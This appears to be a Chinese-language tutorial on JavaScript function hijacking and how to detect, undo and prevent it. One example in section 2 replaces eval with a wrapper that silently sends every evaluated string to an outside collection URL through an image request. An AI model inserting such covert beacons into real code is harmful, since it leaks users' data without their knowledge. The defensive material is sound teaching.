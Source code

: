 # 函数防劫hijacking<sup>shine</sup>
## 1.的函数劫持是什么？
javascript函数劫持，顾名思义，即在一个函数运行之前把它劫持下来，添加我们想要的功能。当这个函数实际运行的时候，它已经不是原本的函数了，而是带上了被我们添加上去的功能。这也是我们常见的钩子函数的原理之一。

```javascript
    var _alert = alert;
    function alert(str){
        if (confirm('How are you?')){
            _alert(str);
        }
    }
    alert('something');
```
类似的还有eval等等函数，甚至算定义函数也可能重写而劫持，因为js本身没有重载功能。

## 2.函数劫持的目的
劫持当然就是希望在执行该函数时，添加一些副作用。比如收集信息（或者说盗取信息）,插入广告等。

```javascript
    var _eval = eval;
    window.eval = function(str){
        setTimeout(function(){
            var img = new Image();
            img.src = "http://www.scscms.com/collect?eval=" + encodeURIComponent(str);
        },0);
        _eval(str);
    };
    eval('var a = "something";');
```
## 3.鉴定函数被劫持
怎么鉴定函数被劫持，网上流行一种直接方法是把执行函数的toString方法，在返回字符串中判断是否存在\[native code\]字符。比如eval函数没被劫持前返回字符是：
```javascript
function eval() {
    [native code]
}
```
所以他们认为`eval.toString().indexOf("[native code]") > 0`就是劫持了，这未免也太草率了。原因是在劫持过程中可随时添加此字符蒙骗过关：
```javascript
    window.eval = function(str){
        /*[native code]*/
        //[native code]
        console.log("[native code]");
    };
    console.log(eval.toString());
```
看看，是吧。按理说应该返回上面那样干干净净的代码才能判断没有被劫持，不是吗？还真不是！因为假如我添加如下代码呢：
```javascript
    window.eval = function(str){
        //劫持过程省略
    };
    window.eval.toString = function(){
        return `function eval() {
            [native code]
        }`
    };
    console.log(eval.toString());
```
那我还能说点啥呢？
所以检测其是否劫持还得判断其toString方法是否被改写，或者在原型链上的方法是否已改写。
```javascript
    if(Object.toString === eval.toString && eval.toString().replace(/\n|\s/g,"")=="functioneval(){[nativecode]}"){
        console.log("没被劫持");
    }else{
        console.log("被劫持了");
    }
```
## 4.函数反劫持
- 1.判断劫持后恢复
一旦判断被劫持后，我们就要想法恢复此方法。
假如劫持人有另存方法为某个变量就简单点，直接还原。但这也是非常不靠谱的。
假如劫持人有使用call调用原始方法，我们也是可以直接找回它的。
```javascript
    var _eval = window.eval;
    window.eval = function(str){
        console.log(str);
        _eval.call(null,str);
    };
    //开始借用call恢复
    Function.prototype.call = function(fun){
        if(this.name == "eval"){
            window.eval = this;//恢复方法
        }
    };
    console.log(eval("var a = 1;"));//恢复前执行
    console.log(eval("var b = 1;"));//恢复后执行
```
此方法缺点也大，一是别人调用方法不一定使用call或apply，二是或许劫持者会事先禁用重写call、apply方法。

最绿色环保的当然就是新建一个iframe干净环境来恢复。

```javascript
    var _eval = window.eval;
    window.eval = function(str){
        console.log(str);
        _eval.call(null,str);
    };

    function saveHook(name) {
        var f = document.createElement("iframe");
        f.style.display = "none";
        document.body.appendChild(f);
        window[name]=f.contentWindow[name];
    }
    console.log(eval.toString());
    saveHook("eval");//恢复方法
    console.info(eval.toString());
```
- 2.预先打预防针

其实我觉得最好的反劫持应该是防劫持，即给相应的方法打预防针。主要是通过修改原型配置，禁止重写方法对象。
```javascript
    Object.defineProperty(window, 'eval', {
        writable: false,configurable: false,enumerable: true
    });
    var _eval = window.eval;
    window.eval = function(str){
        console.log(str);
        _eval.call(null,str);
    };
    console.log(eval.toString());
```
如上，此时eval重写将默默失败（严格模式下会报错）。但有个前提就是你的脚本要保证在劫持者之前执行。

### 5.函数绑架

“函数绑架”我们暂且这样称呼它吧。意思是在不破坏原函数结构的基础上，附加绑上一个新方法函数，此函数的触发可定义在原函数调用之前或者之后再触发。这对我们跟踪函数调用非常有用。
```javascript
    Function.prototype.kidnap = function(fun){
        var _this = this;
        return function(){
            fun.apply(_this,arguments);
            return _this.apply(_this,arguments);
        }
    };
    function fun(str){
        console.log(str);
    }
    fun = fun.kidnap(function(str){
        console.info("初次绑架:"+ str);
    });

    fun = fun.kidnap(function(str){
        console.info("再次绑架:"+ str);
    });

    fun("This is a secret");
```
此类绑架因为是绑定在自定义函数里，所以判断是否有绑定有一定难度。不过你还是可以事先把函数保护起来的。
```javascript
    Object.defineProperty(window, 'fun', {
        writable: false,configurable: false,enumerable: true
    });
    //后继的绑架将失败
```